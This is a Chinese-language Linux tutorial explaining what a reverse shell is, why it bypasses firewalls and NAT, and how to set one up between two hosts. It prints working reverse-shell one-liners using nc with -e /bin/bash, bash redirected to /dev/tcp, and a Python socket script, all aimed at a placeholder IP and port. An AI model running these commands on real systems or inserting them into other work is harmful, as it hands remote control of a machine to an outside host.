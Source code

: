Linux
<a name="vl5vj"></a>
## 什么是反弹 Shell
都知道 Shell 的概念，简单来说，Shell 就是实现用户命令的接口，通过这个接口就能实现对计算机的控制，比如常见的 ssh 就是执行的 Shell 命令实现对远程对服务器的控制。<br />那反弹 Shell 是啥呢？其英文名叫做 Reverse Shell，具体干什么的呢？就是控制端首先监听某个 TCP/UDP 端口，然后被控制端向这个端口发起一个请求，同时将自己命令行的输入输出转移到控制端，从而控制端就可以输入命令来控制被控端了。<br />比如说，有两台主机 A、B，最终想实现在 A 上控制 B。那么如果用正向 Shell，其实就是在 A 上输入 B 的连接地址，比如通过 ssh 连接到 B，连接成功之后，就可以在 A 上通过命令控制 B 了。如果用反向 Shell，那就是在 A 上先开启一个监听端口，然后让 B 去连接 A 的这个端口，连接成功之后，A 这边就能通过命令控制 B了。
<a name="eN7To"></a>
## 反弹 Shell 有什么用？
还是原来的例子，想用 A 来控制 B，如果想用 ssh 等命令来控制，那得输入 B 的 sshd 地址或者端口对吧？但是在很多情况下，由于防火墙、安全组、局域网、NAT 等原因，实际上是无法直接连接到 B 的，比如：

- A 虽然有公网 IP，但 B 是一个处于内网的机器，A 就没法直接连到 B 上。
- B 上开了防火墙或者安全组限制，sshd 的服务端口 22 被封闭了。
- B 是一台拨号主机，其 IP 地址经常变动。
- 假如 B 被攻击了，想让 B 向 A 汇报自己的状况，那自然就需要 B 主动去连接 A。

如果是这些情况，就可以用反弹 Shell 用 A 来控制 B 了。
<a name="WREHB"></a>
## 反弹 Shell 案例
首先看一个标准的反弹 Shell 的例子，这里一共需要两台主机：

- A 是控制端，可以处于公网之中，也可以和 B 处于一个局域网中，总之能让 B 找到 A 就行。
- B 是被控端，可以处在局域网之中。

在开始之前需要用到 nc 命令，安装非常简单。<br />如果是 CentOS 系列系统，安装命令如下：
```bash
# CentOS
yum install -y nc
```
如果是 Ubuntu 系列系统，安装命令可以参考 [https://stackoverflow.com/questions/10065993/how-to-switch-to-netcat-traditional-in-ubuntu](https://stackoverflow.com/questions/10065993/how-to-switch-to-netcat-traditional-in-ubuntu)。<br />接着，在 A 上执行如下命令：
```bash
nc -lvp 32767
```
这个命令的意思是开启 32767 的端口监听，运行之后如图所示：<br />![](https://cdn.nlark.com/yuque/0/2022/png/396745/1651580629613-4cd7c801-9cc4-4339-96e1-6d74eb5cbb7d.png#clientId=ua455d29e-7a81-4&from=paste&id=u941ab91b&originHeight=253&originWidth=1080&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=u697d2800-1bd9-407d-b417-efe07ab254e&title=)<br />这样就表明 A 上正在监听 32767 端口的连接了。<br />这时候，可以在 B 上通过类似的命令连接到 A，假如 A 的 IP 是 111.112.113.114，那么命令如下：
```bash
nc 111.112.113.114 32767 -e /bin/bash
```
注意：在运行的时候需要替换成 A 的真实 IP 和端口。<br />运行完毕之后，反过来观察下 A，就显示了来自某个 IP 和端口的连接，就可以输入命令来控制 B 了，比如这里输入了：
```bash
uname -a
```
然后就可以得到 B 的主机名了。<br />如图所示：<br />![](https://cdn.nlark.com/yuque/0/2022/png/396745/1651580629638-7fbd72ef-b4f9-4a5c-9a4c-33a772c8317f.png#clientId=ua455d29e-7a81-4&from=paste&id=ue734b831&originHeight=208&originWidth=1080&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=ue635e76a-42f4-4437-addf-2ecd9b90b16&title=)<br />这样就通过 nc 包实现了反弹 Shell。<br />有人说，这 B 上一定需要安装 nc 这个包吗？其实不一定的，可以直接使用 bash 来实现反弹 Shell，命令如下：
```bash
bash -i >& /dev/tcp/111.112.113.114/32767 0>&1
```
这个命令大致解释下：

- `bash -i` 就是产生一个 bash 交互环境
- `>&`可以将 bash 交互环境的输入、输出、错误输出都输出到一个地方
- `/dev/tcp/111.112.113.114/32767` 其实指的就是目标主机的一个连接地址，因为 Linux 环境中所有内容的定义都是以文件的形式存在的，指定这个地址就是让主机和目标主机建立一个 TCP 连接。
- `0>&1`可以将标准输入和标准输出相结合，重定向给前面标准输出的内容。

通过这样的命令，就可以就是将 B的标准输出和错误输出都重定向给 A，并且将 A 的输入都重定向给 B，这样就可以实现 A 对 B 的远程控制了，如图所示：<br />![](https://cdn.nlark.com/yuque/0/2022/png/396745/1651580629710-dbd9be68-bebf-49bd-af6b-ad67b514f151.png#clientId=ua455d29e-7a81-4&from=paste&id=u755795df&originHeight=242&originWidth=717&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=u636e730e-0326-4721-80be-06aae52a55c&title=)<br />比如这样就可以轻松在 A 主机上拿到 B 主机的主机名、当前所处路径等内容了。<br />另外除了用 bash，还可以利用 Python 进行反弹 Shell，脚本如下：
```python
python -c 'import socket,subprocess,os; \
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("111.112.113.114",32767));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```
可以达到同样反弹 Shell 的效果，即可以用 A 来控制 B。
